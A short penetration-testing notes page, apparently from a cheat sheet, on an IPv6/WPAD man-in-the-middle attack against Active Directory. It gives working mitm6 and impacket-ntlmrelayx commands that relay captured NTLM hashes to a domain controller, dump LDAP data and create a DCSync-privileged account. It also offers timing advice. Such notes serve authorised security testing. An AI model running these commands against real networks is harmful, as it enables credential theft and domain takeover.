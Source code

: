 ```yaml
---
tags:
  - Initial-Access
  - MITM6
  - AD
---
```

IPv6 has been adopted slowly and thus underutilized in environments. If IPv6 name resolution is enabled, but a proper DNS server has not been setup to respond to queries, we can man-in-the-middle by using Web Proxy Auto-Discovery Protocol (WPAD) resolution requests to capture and relay hashes to the DC.

!!! alert " this attack is most consistently triggered on machine reboot or network stack reload so early mornings are probably the best time to perform this attack"

## mitm6 + ntlmrelayx
**Start mitm6**
```bash
sudo mitm6 -d domain.local
```
Now start ntlmrelayx, specify a relay target (DC prolly) will output ldapdomaindump as HTML as well. 
```bash
impacket-ntlmrelayx -6 -t ldaps://<DCIP> -wh wpad.domain.local -l lootme
```
These options instruct ntlmrelayx to do an ldapdomaindump if user hashes are relayed, and create an account with DCSync privileges if a domain admins hash is relayed.
